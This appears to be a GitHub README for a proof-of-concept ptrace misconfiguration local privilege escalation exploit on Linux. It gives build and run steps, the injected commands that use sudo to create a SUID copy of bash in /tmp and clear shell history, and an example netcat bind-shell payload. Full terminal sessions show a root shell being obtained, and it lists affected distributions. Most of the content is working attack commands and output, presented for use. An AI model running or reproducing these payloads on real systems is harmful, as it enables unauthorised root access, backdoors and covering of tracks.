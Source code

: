 # ptrace misconfiguration local privilege escalation
ptrace misconfiguration Local Privilege Escalation

WARNING! this is a POC, the code is CRAP

video demo on youtube: https://youtu.be/3Qmy1Y8W7A8

Injecting code via ptrace (with same user) in shells with sudo authenticated

Exploit Reqs:
* ptrace enable to attach the processes of the user
* terminal with a sudo user group (attacker)
* terminal with the same user & sudo authenticated (victim)
* run xpk or ptrex (if GDB is installed is more safe run this: https://www.exploit-db.com/exploits/46989)

my code use ptrace (no GDB dep) 

based from (GDB dep): https://www.exploit-db.com/exploits/46989

'ptrace_scope' misconfiguration Local Privilege Escalation by Marcelo Vazquez (s4vitar) & Victor Lasa (vowkin)

## xpk.c
Local Privilege Escalation via stdin hijack (using ptrace_do lib https://github.com/emptymonkey/ptrace_do): sudo -S cp /bin/bash /tmp + sudo -S chmod +s /tmp/bash + history -c 
```
gcc -o xpk xpk.c
./xpk
```

## ptrex.c:
Local Privilege Escalation via shellcode injection execve + python -c import os; os.system("echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1"); import pty; pty.spawn("/bin/bash");
```
gcc -o ptrex ptrex.c
 ./ptrex 
```

You can also inject your own python code: ./ptrex full_python_path newcmdline
```
./ptrex /home/dreg/tmp/python 'import os; os.system("/usr/bin/sudo /bin/nc -lvp 4444 -e /bin/bash")'
```

## How to test xpk.c:
Open a terminal with a sudo user group

execute any command with sudo and enter the password, ex:
```
dreg@fr33project:~$ tty
/dev/pts/4
dreg@fr33project:~$ id
uid=1003(dreg) gid=1003(dreg) groups=1003(dreg),27(sudo)
dreg@fr33project:~$ sudo whoami
[sudo] password for dreg:
root
dreg@fr33project:~$ 
```

open other terminal with the same user and execute ./xpk (the name of the exploit executable is important, dont change!)
```
dreg@fr33project:~$ tty
/dev/pts/7
dreg@fr33project:~$ .gcc -o xpk xpk.c
dreg@fr33project:~$ ./xpk
David Reguera Garcia aka Dreg exploit without gdb dep, based in:
https://www.exploit-db.com/exploits/46989
'ptrace_scope' misconfiguration Local Privilege Escalation
Authors: Marcelo Vazquez  (s4vitar)
         Victor Lasa       (vowkin)

[*] PID -> bash
[*] Path 2660: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> bash
[*] Path 2892: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> sh
[*] Path 2998: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap
[*] PID -> bash
[*] Path 2999: /home/dreg
stdin fd: 4
echo "clear && echo | sudo -S cp /bin/bash /tmp >/dev/null 2>&1 && echo | sudo -S chmod +s /tmp/bash >/dev/null 2>&1 | echo && history -c && clear" >> /tmp/crap

[*] Cleaning up...
[*] Spawning root shell...
bash-5.0# id
uid=1003(dreg) gid=1003(dreg) euid=0(root) egid=0(root) groups=0(root),27(sudo),1003(dreg)
bash-5.0# whoami
root
bash-5.0#
```

## How to test ptrex.c:
Open a terminal with a sudo user group

execute any command with sudo and enter the password, ex:
```
dreg@fr33project:~$ tty
/dev/pts/4
dreg@fr33project:~$ id
uid=1003(dreg) gid=1003(dreg) groups=1003(dreg),27(sudo)
dreg@fr33project:~$ sudo whoami
[sudo] password for dreg:
root
dreg@fr33project:~$ 
```

open other terminal with the same user and execute ./xpk (the name of the exploit executable is important, dont change!)
```
dreg@fr33project:~$ tty
/dev/pts/7
dreg@fr33project:~$ .gcc -o ptrex ptrex.c
dreg@fr33project:~$ ./ptrex
ptrex v0.3-beta - MIT License - Copyright 2020
David Reguera Garcia aka Dreg - dreg@fr33project.org
http://github.com/David-Reguera-Garcia-Dreg/ - http://www.fr33project.org/
-
ptrace misconfiguration Local Privilege Escalation
using ptrace (no GDB dep) execve
-
Based from: https://www.exploit-db.com/exploits/46989
'ptrace_scope' misconfiguration Local Privilege Escalation by Marcelo Vazquez (s4vitar) & Victor Lasa (vowkin)

To change default python path & cmd injected: ./ptrex full_python_path newcmdline
    example: ./ptrex /home/dreg/tmp/python 'import os; os.system("/usr/bin/sudo /bin/nc -lvp 4444 -e /bin/bash")'

/proc/sys/kernel/yama/ptrace_scope : 0
pgrep "^(echo $(cat /etc/shells | tr '/' ' ' | awk 'NF{print $NF}' | tr '\n' '|'))$" -u "$(id -u)" | sed '$ d'
current pid: 18888
skipping current shell pid: 18888
current pid: 20156
elf plat: 64
waiting for process
getting registers
injecting shellcode at: 0x00007f33a88890e9
setting instruction pointer to: 0x00007f33a88890e9
runing
please wait...
found suid shell: /tmp/bash
rooting.....
/tmp/bash -p -c 'rm /tmp/bash ; tput cnorm && /bin/bash -p'

bash-5.0# whoami
root
bash-5.0#
```
## WORKING ON:

* Parrot Home/Workstation: 4.6 
* Parrot Security: 4.6 
*	CentOS / RedHat: 7.6 
*	Kali Linux: 2018.4 
* Debian GNU/Linux: 10 (buster)

